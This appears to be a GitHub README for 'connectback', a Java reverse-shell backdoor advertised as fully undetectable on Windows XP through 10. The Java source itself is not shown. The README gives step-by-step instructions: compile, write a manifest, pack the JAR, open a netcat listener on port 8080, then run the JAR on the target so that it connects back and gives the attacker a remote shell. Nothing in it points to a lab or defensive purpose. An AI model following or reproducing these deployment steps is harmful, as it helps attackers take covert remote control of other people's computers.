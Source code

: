 This is a Java based Completely FUD backdoor reverse shell, for Windows XP,Vista,7,8.x,10 , coded entirely in java.

This project was developed using openjdk version "11.0.3".

To compile the file , simply run javac connectback.java.
This will create the .class file.
Create a manifest file, as per the JDK version on your device.
Filename : connectback.mf
Format:
Manifest-Version: 11.0.3
Main-Class: connectback

Now This can be packed into a .JAR executable file using :jar cmf connectback.mf connectback.jar connectback.class connectback.java

Start a netcat listner using nc -lvp 8080 ( I've used port 8080 as my listening port)

Port the .JAR file to the windows machine and execute it either by using java -jar connectback.jar or simply double clicking on the file , and you should instantly get your reverse shell on the attacker machine.

Cheers

#Captain_Nemo
